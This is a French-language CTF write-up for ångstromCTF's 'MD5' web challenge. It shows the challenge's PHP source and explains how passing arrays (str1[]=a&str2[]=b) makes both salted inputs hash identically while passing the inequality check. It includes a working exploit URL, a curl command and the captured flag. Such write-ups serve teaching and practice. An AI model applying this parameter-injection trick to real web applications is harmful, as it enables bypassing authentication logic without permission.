

# Angstorm - CTF writeup - MD5 - 140 pts

- Le chall consiste en un formulaire  qui doit comparer deux string qui une fois hashé en md5 doivent donner la même valeur :



- On peut voir dans les sources le code php suivant :
```php
<?php
  include 'secret.php';
  if($_GET["str1"] and $_GET["str2"]) {
    if ($_GET["str1"] !== $_GET["str2"] and
        hash("md5", $salt . $_GET["str1"]) === hash("md5", $salt . $_GET["str2"])) {
      echo $flag;
    } else {
      echo "Sorry, you're wrong.";
    }
    exit();
  }
?>
```

- On constate qu'il n'y a que des comparaisons strictes, en `===` ou `!==`
- Le salt est le même des deux cotés : `hash("md5", $salt . $_GET["str1"]) === hash("md5", $salt . $_GET["str2"]))`
- Il faut donc arriver à faire en sorte que str1 soit égal à str2 tout en bypassant le test :  `$_GET["str1"] !== $_GET["str2"]`
- Pour se faire on va utiliser les tableaux en php car un tableau concaténé à un string produit la chaine 'Array':
```php
php > $a = array('str1');
php > $b = 'salt'.$a;
PHP Notice:  Array to string conversion in php shell code on line 1
php > var_dump($b);
string(9) "saltArray"
```

- Du coup en passant en paramètre deux tableaux différents, ceux-ci vont produire la même chaîne de caractère une fois concaténé au salt tout en passant le test d'inégalité des paramètres.

- Résultat : `http://web.angstromctf.com:3003/?str1[]=a&str2[]=b`
```
➜  ~ curl "http://web.angstromctf.com:3003/\?str1\[\]\=a\&str2\[\]\=b"
actf{but_md5_has_charm}
```

By team Beers4Flags

```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
